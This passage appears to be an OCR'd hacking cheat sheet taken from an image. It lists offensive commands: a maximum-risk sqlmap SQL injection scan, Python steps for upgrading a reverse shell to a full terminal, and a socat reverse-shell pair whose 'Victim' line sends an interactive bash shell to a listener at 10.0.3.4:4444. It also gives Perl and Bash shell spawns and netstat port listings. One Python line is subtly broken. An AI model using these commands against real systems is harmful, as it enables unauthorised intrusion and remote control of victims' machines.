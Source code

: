 ## SQL Injection (SQLmap)

-   sqlmap -u "http://example.com/test.php?test=test" --level=5 --risk=3 --batch

#### Python

1. python -c 'import pty;spawn("/bin/bash");'
   or
1. python3 -c 'import pty;spawn("/bin/bash");'
1. In reverse shell:

```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

- In Kali

3. stty raw -echo
4. fg

- In reverse shell
5. reset (sometimes optional)
6. export SHELL=bash
7. export TERM=xterm-256color
8. stty rows <num> columns <cols> (optional)
(Sometimes the command will need to be executed: export TERM=xterm)
```

Using socat

```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444
#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### Perl

1. perl -e 'exec "/bin/sh";'
2. perl: exec "/bin/sh";

#### Bash

/bin/sh -i

## Show listening ports

-   Linux netstat syntax

    1.  netstat -tulpn | grep LISTEN

-   FreeBSD/MacOS X netstat syntax
    1.  netstat -anp tcp | grep LISTEN
    2.  netstat -anp udp | grep LISTEN
-   OpenBSD netstat syntax
